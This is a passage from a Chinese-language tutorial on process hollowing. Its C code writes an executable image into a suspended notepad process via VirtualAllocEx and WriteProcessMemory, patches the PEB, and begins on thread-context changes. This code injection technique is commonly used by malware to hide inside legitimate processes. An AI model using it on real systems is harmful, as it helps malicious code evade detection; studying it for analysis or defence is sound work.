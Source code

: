 然后，调用之前写的`load_pe64`函数，将PE文件按照文件结构载入内存中：

```c
    //根据PE文件内容生成PE文件载入内存的状态
    int ImageSize;
    ULONGLONG newImageBase;
    DWORD entryPoint;
    unsigned char *peMem = load_pe64(fileBuf, &ImageSize, &newImageBase, &entryPoint);
    printf("SizeOfImage: 0x%x, ImageBase: 0x%llx, AddressOfEntryPoint: 0x%x\n", 
            ImageSize, newImageBase, entryPoint);
```

最后，使用WriteProcessMemory，将这块内存写到notepad的内存空间中：

```c
    //VirtualAllocEx申请一块内存加载source.exe
    void *mem = VirtualAllocEx(pi.hProcess, (void *)newImageBase, ImageSize, 
                                MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
    if(mem != (void *)newImageBase) {
        printf("VirtualAllocEx Failed, mem: %p", mem);
        free(peMem);
        free(fileBuf);
        return -1;
    }
    //将source.exe写入notepad进程空间中
    result = WriteProcessMemory(pi.hProcess, mem, peMem, ImageSize, NULL);
    free(peMem);
    free(fileBuf);
    if(!result) {
        printf("Load PE Failed: %d\n", GetLastError());
        return -1;
    }
```

由于没有进行重定位操作，这里申请的内存起始地址必须为可执行文件默认装入的内存地址，即PE文件中的ImageBase。

PEB中的ImageBaseAddress这一项也得进行相应的修改：

```c
    //修改PEB中的ImageBase
    processPeb.Reserved3[1] = (PVOID)newImageBase;
    result = WriteProcessMemory(pi.hProcess, processInfo.PebBaseAddress, &processPeb, sizeof(processPeb), NULL);
    if(!result) {
        printf("Modify PEB Failed: %d\n", GetLastError());
        return -1;
    }
```

### 修改进程的context

CONTEXT结构体中存储了一些寄存器的值，可以通过设置notepad进程的context设置它的寄存器的值。

当进程以挂起状态被创建时，它的入口点被存储在了寄存器当中。在32位进程中，存储入口点的寄存器为EAX，所以[Leitch, J. (n.d.). Process Hollowing.](http://www.autosectools.com/process-hollowing.pdf)这篇文章会设置CONTEXT结构体中的Eax这一项。
